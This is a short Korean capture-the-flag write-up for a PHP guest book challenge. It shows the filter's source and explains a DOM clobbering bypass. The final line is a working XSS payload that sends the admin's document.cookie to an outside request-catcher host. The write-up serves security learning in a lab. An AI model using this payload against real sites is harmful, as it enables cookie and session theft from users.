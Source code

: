 ## Guest book v0.2
---

```php
<?php
function addLink($content){
  $content = htmlentities($content);
  $content = preg_replace('/\[(.*?)\]\((.*?)\)/', "<a href='$2'>$1</a>", $content);
  PreventXSS($content);
  return $content;
}

$ALLOW_TAGS_ATTRS = array(
  "html"=>['id', 'name'],
  "body"=>['id', 'name'],
  "a"=>['id','href','name'],
  "p"=>['id', 'name'],
);

function PreventXSS($input){
  global $ALLOW_TAGS_ATTRS;

  $htmldoc = new DOMDocument();
  $htmldoc->loadHTML($input);

  $tags = $htmldoc->getElementsByTagName("*");
    
  foreach ($tags as $tag) {
    if( !$ALLOW_TAGS_ATTRS[strtolower($tag->nodeName)] ) DisallowAction();
    $allow_attrs = $ALLOW_TAGS_ATTRS[strtolower($tag->nodeName)];
    foreach($tag->attributes as $attr){
        if( !in_array(strtolower($attr->nodeName), $allow_attrs) ) DisallowAction();
    }
  }
}

function DisallowAction(){
	die("no hack");
}

?>
```

<br>

```
php로 개발 중인 방명록 서비스입니다.

글을 쓰는 기능과, 오류가 발생하는 주소를 관리자가 확인할 수 있도록 하는 Report기능이 존재합니다.

플래그는 관리자의 쿠키에 포함되어 있습니다.

0.1 버전에서 발견된 취약점을 방어하는 코드가 추가되었습니다.
```

<br><br>

## Solution
---

GuestBook에서 내가 푼 방식으로는 이 문제를 풀 수 없다.

이 문제에서는 사용 가능한 속성을 지정해줬기 때문에 id, name, href만 사용 가능하다.

아마 내가 푼 방식이 출제자가 의도했던 방식? 이라고 생각된다(?)

<br>

그래서 이 문제는 DOM Clobbering으로 풀어줘야 한다.

이미 GuestBook을 풀 때 해봤으므로 바로 익스플로잇 해주면 된다.

<br>

```
GuestBook.php/?content=[a](javascript:location.href=`http://xauitam.request.dreamhack.games?cookie=`%2bdocument.cookie' id='CONFIG' name='main)%0d%0a[a](javascript:location.href=`http://xauitam.request.dreamhack.games?cookie=`%2bdocument.cookie' id='CONFIG' name='debug)
```
